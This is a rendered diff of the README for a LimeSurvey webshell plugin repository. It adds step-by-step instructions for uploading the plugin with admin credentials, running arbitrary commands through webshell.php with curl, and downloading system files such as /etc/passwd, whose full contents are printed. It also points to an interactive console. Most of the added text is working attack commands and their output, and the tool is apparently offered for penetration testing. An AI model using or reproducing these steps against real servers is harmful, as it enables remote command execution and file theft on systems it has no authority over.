

Before and after one commit to p0dalirius/LimeSurvey-webshell-plugin, a Markdown page: README.md, the part around the change printed below. Shown: that part at 83% size. Drawn GitHub-style; pictures changed too: .github/exec_code_web.png (added), .github/upload_and_install.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -18,19 +19,58 @@
 
 **Requirements**: You need to have the credentials of the `admin` account of the LimeSurvey instance.
 
-### Installing the plugin
+### Step 1: Upload the webshell plugin
 
-http://localhost:10080/index.php/admin/pluginmanager/sa/index
+Go to "Configuration --> plugins" page, at http://localhost:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":
+
+![](./.github/upload_and_install.png)
+
+### Step 2.1: Executing commands
+
+You can now execute commands by sending a GET or POST request to http://127.0.01/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:
+
+```sh
+$ curl -X POST 'http://localhost:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
+{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
+```
+
+You can also access it by a GET request from a browser:
+
+![](./.github/exec_code_web.png)
+
+### Step 2.2: Downloading files
+
+You can also download remote files by sending a GET or POST request to http://localhost:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:
+
+```sh
+$ curl -X POST 'http://127.0.0.1/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
+root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+sys:x:3:3:sys:/dev:/usr/sbin/nologin
+sync:x:4:65534:sync:/bin:/bin/sync
+games:x:5:60:games:/usr/games:/usr/sbin/nologin
+man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
+lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
+mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
+news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
+uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
+proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
+www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
+backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
+list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
+irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
+gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
+nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
+_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
+mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
+```
+
+
+### Step 3: The interactive console
+
+When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.
+
 
 ## References
-
- - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin
-
- - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin
-
- - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
-
-
- - **Useful links for debugging module import**
-    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
-    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/
+ - https://manual.limesurvey.org/Plugin_autoactivation
````
Also changed, not shown: other parts of README.md (+6 -5 lines), .github/configuration_plugins.png (added), 9 other files.
